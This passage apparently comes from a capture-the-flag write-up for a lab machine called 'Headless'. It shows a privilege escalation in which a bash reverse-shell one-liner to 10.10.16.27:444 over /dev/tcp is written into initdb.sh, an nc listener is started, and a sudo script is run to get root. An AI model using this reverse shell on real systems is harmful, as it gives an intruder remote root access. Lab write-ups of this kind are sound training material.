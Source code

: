 Run the following command to create our reverse shell in the initdb.sh file as well as making it executable

```bash
echo -n '/bin/bash -l > /dev/tcp/10.10.16.27/444 0<&1 2>&1' > initdb.sh
chmod +x 
```

Then after doing this we can setup our second listener this time on port 444

```bash 
nc -lnvp 444
```

After setting up our listener we could run the script as root. After a second we'd be greeted with a reverse shell as root.

```bash
sudo /usr/bin/syscheck
```
![Root access](/assets/img/Headless/Headless_11.png)

